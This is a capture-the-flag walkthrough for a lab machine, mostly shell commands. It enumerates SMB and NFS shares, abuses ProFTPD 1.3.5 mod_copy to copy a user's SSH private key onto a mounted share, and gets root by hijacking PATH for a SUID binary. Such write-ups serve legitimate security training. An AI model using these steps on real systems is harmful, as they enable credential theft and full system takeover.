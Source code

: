 # Kenobi
## IP
```
10.10.216.92
```

## Open ports
7

## Enum samba shares
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.216.92
```

3 found

## connect to anonymous
```bash
smbclient //10.10.216.92/anonymous
```

## download share data recursively
```bash
smbget -R smb://10.10.216.92/anonymous
```

## Enum RPC

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.216.92
```

Found mount `/var`



## ProFTPD
Port: 21
version `1.3.5`

### searchsploit

```bash
searchsploit ProFTPd 1.3.5
```

Found `mod_copy`

### use!
- NetCat to ProFTPD
```bash
nc 10.10.216.92 21
```

- copy is_rsa to public
```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

#### Mount public share to our machine

```bash
mkdir kenobiNFS

sudo mount 10.10.216.92:/var ./kenobiNFS

ls -la /mnt/kenobiNFS
```

**install nfs-common if needed (`mount` error)**
```bash
sudo apt-get install nfs-common
```

## Connect to FTP
#### save id_rsa
```bash
cp kenobiNFS/tmp/id_rsa .
```

#### change id_rsa permissions if ssh does not connect
```bash
chmod -xrw id_rsa
chmod u+rx id_rsa
```

#### connect
```bash
ssh -i id_rsa kenobi@10.10.216.92

```


## FLAG 1
```bash
cat /home/kenobi/user.txt
```


# Privilege escalation
## Find files with SUID bit
```bash
find / -perm -u=s -type f 2>/dev/null
```

#### found potential
`/usr/bin/menu`

### create fake curl from sh for that program
```bash
cd tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
```

### run it
```bash
/usr/bin/menu
```
## GOT ROOT SHELL!


# FLAG 2
```bash
cat /root/root.txt
```
